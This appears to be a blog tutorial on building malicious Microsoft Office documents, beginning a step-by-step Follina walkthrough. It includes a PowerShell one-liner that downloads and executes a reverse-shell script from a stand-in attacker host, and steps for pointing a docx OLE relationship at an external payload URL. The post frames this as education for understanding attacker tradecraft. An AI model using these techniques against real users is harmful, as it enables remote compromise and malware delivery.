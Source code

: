 ```yaml
---
title:  "Building Offensive Malicious Documents"
tags: Malicious-Document
---
```


Generally, the attacker will use the below techniques in leveraging Microsoft Office features and vulnerabilities:

1. Exploits
2. Macros
3. Remote template injection and many more...

In this post, we will learn various techniques on how to make malicious documents that can execute our malicious code. Of course, to make it simple we will just run the calc/notepad application to show our proof of concept is proven.

Why do security researchers always pop up a calc.exe when doing a Proof-of-Concept? Because it is simple and easy to pop up a calculator, rather than creating Powershell one-liner or shellcoding just to show your POC is proven. Hehe

You can always replace the calc.exe execution with any payload you want like Powershell reverse shell or mshta fileless or anything else that is suitable your appetite but popping up a calc.exe indicated that we can also execute anything we wanted like download and execute malware. Not just a calc.exe execution.

For example, malicious Powershell like below:
```
powershell IEX (New-Object Net.WebClient).DownloadString('https://malware.com/mini-reverse.ps1')
```

This is for education only whereby the purpose of this blog to understand how malicious documents were created by the attacker out there. Do with your own risk.

# Follina

We started with the latest and famous malicious document called Follina. Researchers have reproduced the zero-day with multiple versions of Microsoft Office and even publish their Follina malicious document generator on GitHub.

Here are the steps to build the docx:

Open Microsoft Word, create a dummy document. Insert an (OLE) object (as a Bitmap Image), save it in docx:
![image](https://user-images.githubusercontent.com/56353946/203402911-da9c543b-ffd6-4d3b-bf08-1ad2734b1158.png)

Unzip the docx file and edit `word/_rels/document.xml.rels` in the docx structure. Modify the XML tag `<Relationship` with attribute
`Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject` and `Target="embeddings/oleObject1.bin"` by changing the Target value and adding attribute `TargetMode` like below:
```
Target = "http://malware.domain/payload.html!" TargetMode = "External"
```
![image](https://user-images.githubusercontent.com/56353946/203403755-38afb536-d0b9-458f-b910-487de70ecc14.png)
